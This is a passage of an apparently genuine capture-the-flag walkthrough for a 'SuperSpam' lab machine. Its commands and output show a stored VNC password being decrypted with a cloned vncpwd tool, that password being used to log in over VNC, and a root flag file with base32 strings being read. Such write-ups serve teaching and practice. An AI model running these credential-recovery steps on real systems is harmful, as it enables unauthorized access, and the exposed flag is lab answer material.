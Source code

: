 ```bash
:~/SuperSpam# file passwd
passwd: ISO-8859 text, with no line terminators
```

```bash
:~/SuperSpam# git clone https://github.com/jeroennijhof/vncpwd
Cloning into 'vncpwd'...
remote: Enumerating objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28 (from 1)
Unpacking objects: 100% (28/28), 22.13 KiB | 1.38 MiB/s, done.
```

```bash
:~/SuperSpam# cd vncpwd
```

```bash
:~/SuperSpam/vncpwd# ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd.c
```

```bash
:~/SuperSpam/vncpwd# gcc -o vncpwd vncpwd.c d3des.c
```

```bash
:~/SuperSpam/vncpwd# ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
```

```bash
:~/SuperSpam/vncpwd# ./vncpwd ~/SuperSpam/passwd
Password: vncpriv
```

<br>

<h3>xtightvncserver</h3>

```bash
~/SuperSpam# apt install xtightvncviewer
...
```

```bash
:~/SuperSpam# xtightvncviewer superspam.thm:5901
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password:
...
```

<img width="1009" height="357" alt="image" src="https://github.com/user-attachments/assets/a3e81355-b1eb-4d5e-a66a-86f0e526d2ce" />

<img width="1022" height="312" alt="image" src="https://github.com/user-attachments/assets/7d65d74a-ad7d-4503-9454-d415e64f34f5" />

```bash
# cat r00t.txt

what am i?: MZWGCZ33NF2GKZKLMRRHKPJ5NBVEWNWCU5MXKVLVG4WTMTS7PU======

KRUGS4ZANFZSA3TPOQQG65TFOIQSAWLPOUQG2YLZEBUGC5TFEBZWC5TFMQQHS33VOIQGEZLMN53GKZBAOBWGC3TFOQQHI2DJOMQHI2LNMUWCASDBMNVWK4RNNVQW4LBAMJ2XIICJEB3WS3DMEBRGKIDCMFRWWIDXNF2GQIDBEBRGSZ3HMVZCYIDNN5ZGKIDEMFZXIYLSMRWHSIDQNRQW4IDUN4QGOZLUEBZGSZBAN5TCA5DIMF2CA2LOMZSXE2LPOIQG64DFOJQXI2LOM4QHG6LTORSW2LBAJRUW45LYFYQA==== 
```
